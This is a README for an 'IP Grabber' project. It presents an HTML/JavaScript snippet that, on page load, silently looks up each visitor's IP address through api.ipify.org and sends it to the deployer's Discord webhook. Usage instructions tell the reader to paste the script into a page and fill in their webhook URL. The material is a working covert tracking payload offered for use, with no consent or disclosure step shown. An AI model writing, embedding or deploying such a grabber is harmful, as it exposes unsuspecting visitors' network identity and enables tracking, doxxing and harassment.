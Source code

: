 <h1 align="center">IP Grabber</h1>

<p align="center">
  <strong>A simple script to grab the user's IP address and send it to a Discord webhook.</strong>
</p>


## Description

This script fetches the user's IP address using `https://api.ipify.org` and sends it to a specified Discord webhook.

## How it Works

The script uses JavaScript's `fetch` API to send a GET request to `https://api.ipify.org` to obtain the user's IP address. It then sends a POST request to a Discord webhook URL with the obtained IP address as the payload.

## Usage

Simply include the script in your HTML file. Just make sure to replace **'YOUR_DISCORD_WEBHOOK'** with your actual Discord webhook URL.

```html
<script>
  fetch('https://api.ipify.org')
    .then(response => response.text())
    .then(ip => fetch('YOUR_DISCORD_WEBHOOK', {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({ content: ip })
    }));
</script>
